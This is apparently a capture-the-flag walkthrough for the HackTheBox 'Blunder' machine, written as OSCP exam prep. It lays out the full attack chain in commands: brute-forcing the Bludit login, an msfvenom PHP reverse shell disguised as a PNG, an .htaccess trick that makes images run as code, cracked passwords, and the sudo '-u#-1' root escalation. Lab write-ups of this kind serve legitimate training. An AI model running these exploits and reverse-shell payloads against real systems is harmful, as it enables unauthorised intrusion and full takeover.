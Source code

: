 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
**Focus:** Bludit RCE, Web enumeration, LXD priv esc  
**Tags:** OSCP Prep, TJNull List

---

## 📡 Recon

### Rustscan

```bash
rustscan -a 10.129.190.208 --ulimit 5000 -- -A
```

### /etc/hosts

```bash
echo "10.129.190.208 blunder.htb" | sudo tee -a /etc/hosts
```

### Directory Fuzzing

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://blunder.htb/FUZZ
```

---

## 🌐 [Web Enumeration](HTTP)

- Found `/admin` login panel.
- Bludit version found in HTML source: `3.9.2`

---

## 🔍 Credential Brute-force

### Attempt #1 - Default user

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u admin -p /usr/share/wordlists/rockyou.txt
```

### Discovering `fergus` from `todo.txt`

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.191/FUZZ -e .php,.txt,.html -t 64
```

#### Then retry with `fergus`:

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p /usr/share/wordlists/rockyou.txt
```

### Custom Wordlist with `cewl`

```bash
cewl -w output.txt http://10.10.10.191
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p ./output.txt
```

✅ **Password found:** `RolandDeschain`

---

## 💥 Authenticated RCE Exploit

### Payload Creation

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.3 LPORT=1234 -f raw -b '"' > evil.png
echo -e "<?php $(cat evil.png)" > evil.png
```

### .htaccess File

```bash
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

> Upload both files via Burp Suite and adjust paths to write to `../../tmp/temp`.

### Trigger Payload

```bash
nc -lvnp 1234
curl http://10.10.10.191/bl-content/tmp/temp/evil.png
```

---

## 🐚 Shell as www-data ➝ Enumerate

### Decompressing `config`

```bash
mv config config.gz
gzip -d config.gz
tar -xvf config
```

---

## 👤 Shell as Hugo

### Grep for Credentials

```bash
grep -ir hugo /var/www
```

Found SHA1 hash → Cracked with CrackStation: `Password120`

```bash
su hugo
```

✅ **User Flag:** `/home/hugo/user.txt`

---

## 🧑‍🔧 Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

Allowed to run `/bin/bash` as any user except root.

```bash
sudo -u shaun /bin/bash
```

### LXD Check

```bash
id
```

If in `lxd` group, proceed with:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
lxc image import ./alpine-*.tar.gz --alias myimage
```

*(Didn’t work due to missing command... fallback below)*

---

### Sudo Vulnerability Exploit (version < 1.8.28)

```bash
sudo -V
sudo -u#-1 /bin/bash
```

✅ **Root Flag:** `/root/root.txt`
